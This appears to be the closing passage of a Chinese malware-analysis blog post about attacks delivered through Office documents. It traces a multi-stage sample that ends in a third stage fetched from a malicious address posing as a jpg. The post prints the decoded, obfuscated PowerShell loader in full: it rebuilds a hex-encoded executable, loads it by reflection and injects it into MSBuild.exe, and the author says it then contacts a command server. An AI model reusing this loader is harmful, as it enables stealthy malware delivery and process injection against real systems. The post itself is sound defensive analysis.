

此为第二阶段payload，十六进制解析



再次通过一些解混淆操作，执行了恶意地址中的jpg文件，即第三阶段payload，内容为：



解码得到

```
function YTyzhunF {
    param($xdkpIhK)
    $xdkpIhK = $xdkpIhK -split '(..)' | ? { $_ }
    ForEach ($QyqlbfRJ in $xdkpIhK){
        '[Con' + 'ver' + 't]::To' + 'Int' + '32($QyqlbfRJ,16)'|I`E`X
    }
}


$N4D0R=[char]73 + [char]69 + [char]88
sal W0B4J $N4D0R

$y='[System.Ap@@@@@@@*********************************^^^^^^^^^^^^%%%%%%%%%%%%%%%%%###############ain]'.replace('@@@@@@@*********************************^^^^^^^^^^^^%%%%%%%%%%%%%%%%%###############','pDom')|W0B4J;$g55=$y.GetMethod("get_CurrentDomain")

 [String]$ftIXfysfU='4D5A9@_@_3@_@_@_04@_@_@_FFFF@_@_B8@_@_@_@_@_@_@_4@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_@_08@_@_@...
......
...04465AD4EE68FFEA9698A93B7AEF99315D3363F6CEE99D25F3377DEF20D537653A26E2AF51FD32D09DA2F6CCE46F69D16622B498018FD47583E91DF253878C342103ED71F7055B540B478F55BEF90FFDFC098E33594B@_3C07@_'.replace('@_','00')
$ewe0='$g55.In@@@@@@@*********************************^^^^^^^^^^^^%%%%%%%%%%%%%%%%%###############ke($null,$null)'.replace('@@@@@@@*********************************^^^^^^^^^^^^%%%%%%%%%%%%%%%%%###############','vo')| W0B4J

$wwf5dd='$ewe0.Lo@@@@@@@*********************************^^^^^^^^^^^^%%%%%%%%%%%%%%%%%###############($EvTj)'.Replace('@@@@@@@*********************************^^^^^^^^^^^^%%%%%%%%%%%%%%%%%###############','ad')

$wwf5dd| W0B4J

[Byte[]]$hsmV2= YTyzhunF $hsmV

 '[YE' + 'S' + 'S]::f7' + '7df0' + '0sd(''MSBuild.exe'',$hsmV2)'|IEX
```

中间仍然涉及到了大量混淆操作，最终完成与c2的通信

当然这个样本中技术核心还是大量的混淆操作，与ole结构本身的隐藏效果没有太大的关系，我们通过olevba很容易的就分析出来了，这里只是简单举个例子

## 结语

本文主要讨论了攻击者可能使用Office文档来传递恶意代码的各种经典手段，还探索了在VBA模块之外获取恶意负载的不同方法，使其简短且无害，不过随着时代的变迁大多都失去了隐蔽的效果，后面有机会再谈谈另一些比较新的方法，这些方法在最近的活动中有比较高的出现率。

感谢各位的阅读
